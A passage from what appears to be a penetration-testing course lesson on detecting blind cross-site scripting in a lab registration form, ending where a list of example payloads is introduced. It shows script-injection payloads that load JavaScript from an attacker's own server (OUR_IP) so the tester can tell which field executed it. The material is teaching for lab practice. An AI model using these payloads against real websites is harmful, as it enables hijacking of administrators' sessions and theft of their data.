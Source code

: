 - Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

Let's run the test on the web application on (`/hijacking`) in the server at the end of this section. We see a User Registration page with multiple fields, so let's try to submit a `test` user to see how the form handles the data:

![](Pasted%20image%2020240724125748.png)

As we can see, once we submit the form we get the following message:

![](Pasted%20image%2020240724125813.png)

This indicates that we will not see how our input will be handled or how it will look in the browser since it will appear for the Admin only in a certain Admin Panel that we do not have access to. In normal (i.e., non-blind) cases, we can test each field until we get an `alert` box, like what we've been doing throughout the module. However, as we do not have access over the Admin panel in this case, `how would we be able to detect an XSS vulnerability if we cannot see how the output is handled?`

To do so, we can use the same trick we used in the previous section, which is to use a JavaScript payload that sends an HTTP request back to our server. If the JavaScript code gets executed, we will get a response on our machine, and we will know that the page is indeed vulnerable.

However, this introduces two issues:

1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did.
2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?

### Loading a Remote Script

In HTML, we can write JavaScript code within the `<script>` tags, but we can also include a remote script by providing its URL, as follows:

```html
<script src="http://OUR_IP/script.js"></script>
```

So, we can use this to execute a remote JavaScript file that is served on our VM. We can change the requested script name from `script.js` to the name of the field we are injecting in, such that when we get the request in our VM, we can identify the vulnerable input field that executed the script, as follows:

```html
<script src="http://OUR_IP/username"></script>
```

If we get a request for `/username`, then we know that the `username` field is vulnerable to XSS, and so on. With that, we can start testing various XSS payloads that load a remote script and see which of them sends us a request. The following are a few examples we can use from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):
